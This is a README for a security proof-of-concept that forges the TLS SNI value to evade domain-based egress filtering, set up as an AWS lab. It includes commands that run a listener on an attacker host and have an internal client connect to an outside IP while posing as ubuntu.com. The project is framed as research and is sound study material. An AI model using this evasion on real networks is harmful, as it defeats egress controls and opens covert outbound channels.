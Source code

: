 # SNI Manipulation

This project demonstrates a proof-of-concept for Server Name Indication (SNI) manipulation in TLS connections
to bypass egress HTTP traffic controls that filter by domain.

## Overview

SNI manipulation is a technique to bypass HTTP traffic controls that filter by domain by forging the SNI value in the TLS handshake.

IP addresses are ephemeral and change often with cloud-hosted services, making IP address filters harder to maintain and more likely to break.
Domain filtering is easier to maintain and is less likely to break, but most connections are encrypted by default.
There are two options for filtering encrypted traffic by domain:
1. SNI inspection of the TLS handshake
2. TLS decryption and inspection of the payload

SNI inspection relies on a value supplied by the client during the TLS handshake, a variant of "trusting the client".
This opens domain filtering by SNI inspection up to spoofing attacks (SNI manipulation).

## Components

- A Squid proxy service that filters traffic by SNI.
- A client that makes outbound TLS requests with a spoofed SNI value.
- A service that accepts TLS connections and prints the SNI value from the TLS handshake.

## Getting Started

Clone the repository and build the project.

```sh
git clone https://github.com/DivergentCodes/sec-poc
cd sni-manipulation
make build
```

Start the service and then run the client.

```sh
go run client.go
go run server.go
```

## Full Example with a Terraformed AWS Environment

Deploy the environment with Terraform.

```sh
cd terraform
export AWS_PROFILE="<your-profile>"
terraform init
terraform apply
```

Connect to the NAT instance.

```sh
ssh -i ./ssh/id_ed25519 \
    -o IdentitiesOnly=yes \
    ubuntu@<NAT-instance-public-ip>
```

Connect to the private instance by using the NAT instance as a jump host.

```sh
ssh -v -i ./ssh/id_ed25519 \
    -o IdentitiesOnly=yes \
    -o ProxyCommand="ssh -i ./ssh/id_ed25519 -o IdentitiesOnly=yes -W %h:%p ubuntu@<NAT-instance-public-ip>" \
    ubuntu@<private-instance-private-ip>
```

<img width="762" alt="sni-manipulation" src="https://github.com/user-attachments/assets/0357bc80-a965-4dd2-855a-d98e6a8975fa">


## Commands

On the filtering host, watch passing SNI fields using `tcpdump`.

```sh
sudo tcpdump -i any -n -A -s0 port 443 | grep -e '\.\(com\|org\|net\|io\)'
```

On the attacker host, have the service listen on all interfaces.

```sh
sudo ./server 0.0.0.0 443
```

On the internal host, have the client connect to the attacker server,
forging the SNI value.

```sh
./client 3.87.129.194 443 ubuntu.com
```

## Ethical Considerations

This example is intended for educational and research purposes only. Always obtain proper authorization before testing on any networks or systems you do not own or have explicit permission to test.

## Resources

- [RFC 6066 - Transport Layer Security (TLS) Extensions: Extension Definitions](https://tools.ietf.org/html/rfc6066#section-3)
- [IETF Draft: TLS Encrypted Client Hello](https://datatracker.ietf.org/doc/draft-ietf-tls-esni/)
- [Encrypted SNI for Firefox](https://blog.mozilla.org/security/2018/10/18/encrypted-sni-comes-to-firefox-nightly/)
